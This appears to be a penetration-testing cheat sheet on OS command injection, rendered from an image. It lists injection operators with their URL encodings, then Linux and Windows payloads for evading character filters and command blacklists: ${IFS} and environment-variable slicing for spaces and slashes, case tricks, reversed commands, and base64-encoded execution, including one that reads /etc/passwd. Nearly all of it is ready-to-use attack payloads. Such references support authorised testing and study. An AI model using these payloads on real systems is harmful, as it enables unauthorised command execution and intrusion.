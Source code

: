 # Injection Operators

## Injection Operator	Description		URL-Encoded Character	Executed Command
| Injection Operator | Injection Character | URL-Encoded Character | Executed Command |
|--------------------|----------------------|------------------------|------------------|
| Semicolon          | ;                    | %3b                    | Both             |
| New Line           | \n                   | %0a                    | Both             |
| Background         | &                    | %26                    | Both (second output generally shown first) |
| Pipe               | \|                   | %7c                    | Both (only second output is shown) |
| AND                | &&                   | %26%26                 | Both (only if first succeeds) |
| OR                 | \|\|                 | %7c%7c                 | Second (only if first fails) |
| Sub-Shell          | \`                   | %60%60                 | Both (Linux-only) |
| Sub-Shell          | \$()                 | %24%28%29              | Both (Linux-only) |

# Linux

## Filtered Character Bypass

| Code          | Description                                         |
|---------------|-----------------------------------------------------|
| `printenv`    | Can be used to view all environment variables      |
| Spaces        |                                                     |
| `%09`         | Using tabs instead of spaces                        |
| `${IFS}`      | Will be replaced with a space and a tab. Cannot be used in sub-shells (i.e. $()) |
| `${ls,-la}`   | Commas will be replaced with spaces                 |
| Other Characters |                                                  |
| `${PATH:0:1}` | Will be replaced with /                             |
| `${LS_COLORS:10:1}` | Will be replaced with ;                          |
| `$(tr '!-}' '"-~'<<<[)` | Shift character by one ([ -> \\)                |

## Blacklisted Command Bypass

| Code                    | Description                              |
|-------------------------|------------------------------------------|
| Character Insertion     |                                          |
| `' or "`                | Total must be even                       |
| `$@ or \`               | Linux only                               |
| Case Manipulation       |                                          |
| `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")` | Execute command regardless of cases |
| `$(a="WhOaMi";printf %s "${a,,}")` | Another variation of the technique |
| Reversed Commands       |                                          |
| `echo 'whoami' | rev`   | Reverse a string                        |
| `$(rev<<<'imaohw')`     | Execute reversed command                 |
| Encoded Commands        |                                          |
| `echo -n 'cat /etc/passwd | grep 33' | base64` | Encode a string with base64 |
| `bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)` | Execute b64 encoded string |

# Windows

## Filtered Character Bypass

| Code                    | Description                            |
|-------------------------|----------------------------------------|
| `Get-ChildItem Env:`    | Can be used to view all environment variables - (PowerShell) |
| Spaces                  |                                        |
| `%09`                   | Using tabs instead of spaces           |
| `%PROGRAMFILES:~10,-5%` | Will be replaced with a space - (CMD) |
| `$env:PROGRAMFILES[10]` | Will be replaced with a space - (PowerShell) |
| Other Characters        |                                        |
| `%HOMEPATH:~0,-17%`     | Will be replaced with \\ - (CMD)       |
| `$env:HOMEPATH[0]`      | Will be replaced with \\ - (PowerShell) |

## Blacklisted Command Bypass

| Code                    | Description                              |
|-------------------------|------------------------------------------|
| Character Insertion     |                                          |
| `' or "`                | Total must be even                       |
| `^`                     | Windows only (CMD)                       |
| Case Manipulation       |                                          |
| `WhoAmi`                | Simply send the character with odd cases |
| Reversed Commands       |                                          |
| `"whoami"[-1..-20] -join ''` | Reverse a string                    |
| `iex "$('imaohw'[-1..-20] -join '')"` | Execute reversed command       |
| Encoded Commands        |                                          |
| `[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))` | Encode a string with base64 |
| `iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"` |
